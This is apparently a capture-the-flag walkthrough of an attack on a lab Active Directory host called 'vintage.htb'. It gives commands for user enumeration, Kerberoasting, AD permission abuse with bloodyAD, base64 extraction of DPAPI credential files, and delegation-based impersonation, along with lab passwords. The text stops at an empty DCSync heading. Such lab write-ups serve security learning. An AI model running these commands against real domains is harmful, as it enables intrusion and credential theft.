```
Scope:
10.129.231.205

Creds:
P.Rosa
Rosaisbest123
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -Pn -T5 --min-rate=5000 -vvvv vintage.htb

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2026-01-31 11:21:09Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vintage.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vintage.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
65015/tcp open  msrpc         syn-ack Microsoft Windows RPC
65021/tcp open  msrpc         syn-ack Microsoft Windows RPC
65041/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-31T11:22:00
|_  start_date: N/A
|_clock-skew: -6s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 22961/tcp): CLEAN (Timeout)
|   Check 2 (port 13217/tcp): CLEAN (Timeout)
|   Check 3 (port 17035/udp): CLEAN (Timeout)
|   Check 4 (port 56429/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

## Kerbrute
### Mutating wordlists

By mutating a wordlist to the naming convention of the user we already found we can find another user in the domain:

```bash
awk '{print substr($0,1,1)"."substr($0,2)}' /usr/share/seclists/Usernames/statistically-likely-usernames/jsmith.txt  > j.smith.txt

kerbrute userenum -d vintage.htb --dc 10.129.231.205 j.smith.txt \
| grep -oP '\b[a-zA-Z0-9._-]+(?=@)'
```



We can mutate even further by using the `smith.txt` file, and using `awk` to prepend alphabetical characters:

```bash
awk '{for(c=97;c<=122;c++) printf "%c.%s\n",c,$0}' /usr/share/seclists/Usernames/statistically-likely-usernames/smith.txt > mutated.txt
```



This gives us 2 more users which we can add.

## BloodHound

First I went ahead and requested a TGT for the *P.Rosa* user.



Then I went ahead and created a new `krb5` config file:



Using `nxc` I was able to enumerate all present users:



I then went ahead and enumerated the target using `bloodhound`:




Inspecting the shortest path I noticed that our user didn't really hold any special privileges:



From the `bloodhound-ce-python` output however I remember the following line:



I thus checked out this computer in `bloodhound`:



- Outbound Object Control:



This is quite interesting as we are able to dump the `gMSA` password for the *GMSA01$* account, but even more so interesting is what groups this computer is a member of:



Being a member of the **Pre-Windows 2000 Compatible Access** group as a *computer* means the password is HIGHLY LIKELY the same as the computer name, as per [this article](https://www.thehacker.recipes/ad/movement/builtins/pre-windows-2000-computers):





```
FS01$
fs01
```

Since non-kerb authentication does not work in this domain I requested a TGT for this computer account:



### gMSA dump

Now we can go ahead as we previously found:



```
gMSA01$
d933ef50c2677cc83e8c9a7d09e678e5
```

### GenericWrite - Add to group

Now since we own the *gMSA01$* machine account we can check our privs, which turn out to be plentiful.



First of all I request a TGT again:



Now we can use `bloodyAD` to add ourselves to the group:

```bash
bloodyAD --host DC01.vintage.htb -d vintage.htb -k add groupMember 'SERVICEMANAGERS' 'gMSA01$'
```



### GenericAll 

We now appear to have **GenericAll** privileges over 3 service accounts. One of the accounts, namely *svc_sql*, appears to be disabled.


Since we have **GenericAll** over the account we can enable the account again.

>[!warning]
>We will have to request a new TGT otherwise we'll get the following error:
>
>

```bash
bloodyAD -d vintage.htb -k --host "dc01.vintage.htb" remove uac svc_sql -f ACCOUNTDISABLE
```


Now that the account is enabled again we can kerberoast all the accounts.

```bash
targetedKerberoast -v -d 'vintage.htb' -k --no-pass --dc-host dc01.vintage.htb
```



### john

I was then able to crack one of the hashes:



```
svc_sql
Zer0the0ne
```



Looks like the password is reused by *C.Neri*.



It appears *C.Neri* has remote management access, meaning we should be able to winrm into the system.

# Foothold
## Shell as C.Neri



### user.txt



## Decrypting DPAPI hash

Eventhough we can't use `cmdkey /list`, we can check the local credentials:



Now I tried to use the [following script]() to extract the credentials, however it got flagged by AV:



Instead I'll have to do it the hard way:



I tried downloading them using the C2, that did not work. I then tested `smbserver` which didn't work either, so instead I converted the contents to base64:

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\4dbf04d8-529b-4b4c-b4ae-8e875e4fe847'))

[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b'))
```

I then copied the contents over, `base64` decoded it and placed them in their respective file names:

```bash
echo "<BASE64 ENCODED>" | base64 -d > 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
echo "<BASE64 ENCODED>" | base64 -d > 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```

I then did the same as above for the masterkey:

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\users\c.neri\appdata\roaming\microsoft\credentials\C4BB96844A5C9DD45D5B6A9859252BA6'))

echo "<BASE64 ENCODED>" | base64 -d > C4BB96844A5C9DD45D5B6A9859252BA6
```

Now I was able to decrypt the dpapi hash and get the password.



```
c.neri_adm
Uncr4ck4bl3P4ssW0rd0312
```

Now this got way more interesting:



# Privilege Escalation
## Resource Based Constraint Delegation (RBCD)

It appears I'm already part of the **Delegatedadmins** group, and I can abuse the **AllowedToAct** attribute.

In order to succeed though we'll need to add the *FS01$* machine account to the **Delegatedadmins** group using our **GenericWrite** privileges and request a new ticket on their behalf.



Next up we'll request the ST to impersonate *DC01$* with:

```bash
impacket-getST -spn 'cifs/DC01.vintage.htb' -impersonate 'DC01$' 'vintage.htb'/'FS01$' -dc-ip DC01.vintage.htb -k -no-pass
```



## DCSync

